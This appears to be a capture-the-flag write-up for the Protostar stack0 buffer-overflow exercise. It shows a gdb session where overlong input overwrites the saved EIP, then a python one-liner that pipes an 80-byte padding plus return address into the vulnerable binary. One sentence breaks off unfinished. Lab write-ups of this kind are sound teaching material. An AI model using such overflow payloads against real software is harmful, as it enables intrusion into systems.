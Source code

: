 ```
(gdb) r
Starting program: /opt/protostar/bin/stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFF

Breakpoint 1, main (argc=70, argv=0xbffff854) at stack0/stack0.c:13
13      in stack0/stack0.c
(gdb) info frame
Stack level 0, frame at 0xbffff7b0:
 eip = 0x8048411 in main (stack0/stack0.c:13); saved eip 0x46464645
 source language c.
 Arglist at 0xbffff7a8, args: argc=70, argv=0xbffff854
 Locals at 0xbffff7a8, Previous frame's sp is 0xbffff7b0
 Saved registers:
  ebp at 0xbffff7a8, eip at 0xbffff7ac
(gdb) c
Continuing.
you have changed the 'modified' variable

Program received signal SIGSEGV, Segmentation fault.
0x46464645 in ?? ()
```

Since we overwrite the modified variable, 

We know that there are 80 characters needed to reach the `eip`.

### Exploit

```bash
user@protostar:/opt/protostar/bin$ echo $(python -c 'print "A"*80 + "\x27\x84\x04\x08"') | ./stack0
you have changed the 'modified' variable
Try again?
Segmentation fault
```
